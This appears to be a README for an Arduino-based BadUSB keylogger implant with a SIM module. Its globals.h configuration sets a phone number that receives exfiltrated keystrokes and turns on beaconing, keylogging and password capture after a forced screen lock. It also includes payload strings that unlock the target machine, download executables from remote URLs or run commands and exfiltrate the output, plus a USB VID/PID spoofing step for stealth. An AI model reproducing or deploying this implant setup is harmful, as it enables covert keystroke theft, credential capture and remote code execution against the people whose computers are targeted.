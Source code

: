     Do not forget that flashing the firmware using Arduino IDE or the necessary binary needs to be ran on root user or adding your actual user to the dialup group in Linux. I do not use Windows, so DO NOT ASK about IT!


1. It's necessary to modify buffer size in Android library:

```
find . -name SoftwareSerial.h

 $ nano /opt/arduino-1.8.3/hardware/arduino/avr/libraries/SoftwareSerial/src/SoftwareSerial.h

/* NOTE: Make sure to edit SoftwareSerial.h to change
   #define _SS_MAX_RX_BUFF 64 // RX buffer size
   to
   #define _SS_MAX_RX_BUFF 256 // RX buffer size
   You need to set your info in globals.h
*/
```

2. Create your own configuration parameters editing globals.h

```
#define LEAK_PHONE_NUMBER "+34nnnnnnnnn"	// Set to the destination phone number
#define IMPLANT_NAME "KeyVL1"				// Identify device when multiple used			

#define BEACON true                // Un-comment to send beacons every BEACON_TIME 
#define KEYLOGGER true             // Un-comment to work also as keylogger (if commented, just work as badusb)
#define GETLANG true               // Un-comment to try to get keyboard language

//#define AUTORUN "UnlockDownload##lnx##PASSWORD##https://s3.amazonaws.com/testing/hello_lin"   // Autorun script to be run on connect
#ifndef AUTORUN
  #define GETPASS true               // Un-comment to be smart and try to get user password after lock
  #define LOCKPC true                // Un-comment if you want to force lock when connecting to computer
#endif

#define DEBUG true                  // Un-comment if you want to build with DEBUG.
//#define DEBUGWITHOUTSIM true
// Use one of the following examples to debug without a SIM module and without an USB host
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockDownload##win##PASSWORD##https://s3.amazonaws.com/testing/hello.exe"
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockDownload##osx##PASSWORD##https://s3.amazonaws.com/testing/hello_osx"
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockDownload##lnx##PASSWORD##https://s3.amazonaws.com/testing/hello_lin"
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockRunAndExfil##win##PASSWORD##mkdir %TEMP%\\malware"
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockRunAndExfil##osx##PASSWORD##uname -a"
//#define DEBUGWITHOUTSIM_PAYLOAD "UnlockRunAndExfil##lnx##PASSWORD##touch /tmp/malware"
```

3. Optionally you can modify the device USB VID & PID to keep stealth. This hack will spoof the original device VID & PID (arduino leonardo) to spoof them with a fake one.
 - Select any manufacturer and device usb.ids [./extras/usb.ids][VID/PID list]. Write down your favourite VID & PID.
	